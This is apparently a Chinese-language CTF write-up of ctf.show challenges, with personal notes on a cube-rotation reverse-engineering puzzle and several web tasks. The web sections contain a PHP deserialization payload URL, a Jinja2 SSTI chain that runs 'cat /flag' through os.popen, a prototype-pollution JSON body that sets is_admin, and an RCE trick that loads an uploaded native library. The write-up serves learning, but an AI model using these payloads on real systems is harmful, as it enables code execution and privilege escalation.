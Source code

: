```
####**+##
#########
```
sddssdsssdd5rruffrrffuuffrrffurr  
最后一段的东西如果是正规的FRU应该可以用RRUFFRRFFUUFFRRFFURR造出来，但问题是：
- 这题实现的代码根本就是旋转单面上的块且不动其他面的块
- 对称的操作可以用大小写互相替换，或者F=fff，所以多解  

那密码是啥呢 还是说程序有什么我没找到的SMC？太谜语人了  
爆密码的话也不知到他的那三个1算不算输入

## web
### 签到
```
https://841cc38c-5e82-47eb-bdf0-1f872d785ebd.challenge.ctf.show/?dsbctf=O:7:%22ctfshow%22:4:%7Bs:10:%22%00ctfshow%00d%22;s:1:%221%22;s:10:%22%00ctfshow%00s%22;s:1:%222%22;s:10:%22%00ctfshow%00b%22;s:1:%223%22;s:12:%22%00ctfshow%00ctf%22;i:123;%7D
```
### SSTI 
config存状态就可以了  
{{config.update(s=lipsum.__globals__)}}
{{config.update(b=config.s.os.popen)}}
{{config.b('cat /flag').read()}}
### ez_inject (不会)

https://5a0f56c7-6060-43be-8254-487f30ff3c61.challenge.ctf.show/login/echo/register
{"username":"8","password":"2","__proto__":{"is_admin":true}}  
__proto__[is_admin]  
2","is_admin1":1,"fuck":"f  

我不太行 我不会做

### 迷雾重重 (不会)
怎么挖反序列化呢 phpggc脚本小子失败了  
原来的也只能找到一个最明显的任意文件删除（但是甚至不知道web服务的目录，寄）   

### 上传
https://github.com/codeplutos/java-security-manager-bypass/tree/master/invoke-native-method  
动态库传成1.jar然后 load("/var/www/html/uploads/1.jar") 就可以RCE了